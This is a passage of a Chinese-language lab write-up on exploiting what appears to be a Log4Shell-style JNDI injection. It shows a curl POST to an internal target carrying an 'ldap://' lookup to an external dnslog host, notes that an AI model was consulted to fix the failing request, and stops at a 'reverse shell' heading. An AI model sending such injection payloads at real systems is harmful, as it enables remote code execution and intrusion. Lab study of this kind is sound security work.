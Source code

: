 ![请求记录](./img/请求记录.png)

##### 错误分析

在运行以下命令时，出现报错：

```bash
curl -X POST http://192.168.164.5:24645/he11o -d 'payload="$findi:ldap://ongzd7.dnslog.cn/asas}"'
```

经询问 AI 大模型后得知，漏洞入口靶标的端口不支持 POST 方法。于是修改命令并成功运行。

![报错分析](./img/报错分析.png)

#### 6. 漏洞利用效果评估

##### 反弹 Shell
